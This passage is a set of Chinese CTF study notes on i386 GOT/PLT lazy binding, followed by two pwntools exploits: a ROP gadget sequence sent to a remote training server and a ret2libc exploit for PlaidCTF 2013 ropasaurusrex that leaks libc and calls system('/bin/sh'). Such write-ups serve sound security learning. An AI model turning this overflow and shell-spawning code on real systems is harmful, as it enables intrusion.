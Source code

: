 > 在 i386 架构下，除了每个函数占用一个 GOT 表项外，GOT 表项还保留了３个公共表项，也即 got 的前３项，分别保存：
>
> **got [0]: 本 ELF 动态段 (.dynamic 段）的装载地址** 
>
> **got [1]：本 ELF 的 link_map 数据结构描述符地址** 
>
> **got [2]：_dl_runtime_resolve 函数的地址**
>
> 动态链接器在加载完 ELF 之后，都会将这３地址写到 GOT 表的前３项

**跟着大佬的流程图来走一遍：**

第一次调用

![img](https://cdn.nlark.com/yuque/0/2020/jpeg/268938/1580739542097-a6d2738b-9a08-4b5f-acd8-d5f2c4d77278.jpeg)

之后再次调用![img](https://cdn.nlark.com/yuque/0/2020/jpeg/268938/1580739570228-64997692-8003-4c10-acf2-2c8d91095e3c.jpeg)

## Practice

### train.cs.nctu.edu.tw：rop

没找到题目，从[大佬博客](http://baymrx.me/2019/08/17/PWN刷题记录——train-cs-nctu-edu-tw-rop/)里面找到的，题目使用 nc 连上以后会输出这些 gadgets 需要自己去构造 payload

![1566026309029.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574668172344-2d5dce6a-3e6a-437a-bcc7-5a06950ee918.png)

把 push 的那一些16进制转换一下

![image.png](https://cdn.nlark.com/yuque/0/2019/png/268938/1574668407609-8e44a3b0-4464-41c1-aad9-e9163a76d1c1.png)

大佬说通过这些就可以构造出 payload 了

exp：我连不上。。。

```
from pwn import *
sh = remote('bamboofox.cs.nctu.edu.tw',10001)
payload = "9,9,1,10,9,3,3,12,4,12,2,2,8,8,8,8,8,0"
sh.sendline(payload)
sh.interactive()
```

### 2013-PlaidCTF-ropasaurusrex

没有 system 和 /bin/sh，通过 ret2libc 的方法在libc里面找到，这里注意一下第一次泄露的是 got 表的内容，写成了 plt 的，结果废了两个小时没看出来，还以为又出现了什么超出知识水平的操作，，CTF需要视力！！

exp：

```
from pwn import *
from LibcSearcher import LibcSearcher
p=process('./rop')
elf=ELF('./rop')
write_plt=elf.plt['write']
write_got=elf.got['write']
payload='a'*140+p32(write_plt)+p32(0x80483F4)+p32(1)+p32(write_got)+p32(4)
p.sendline(payload)
write_addr=u32(p.recv(4))
libc=LibcSearcher('write',write_addr)
libc_base=write_addr-libc.dump('write')
sys_addr=libc_base+libc.dump('system')
bin_addr=libc_base+libc.dump('str_bin_sh')
payload1='a'*140+p32(sys_addr)+p32(1234)+p32(bin_addr)
p.sendline(payload1)
```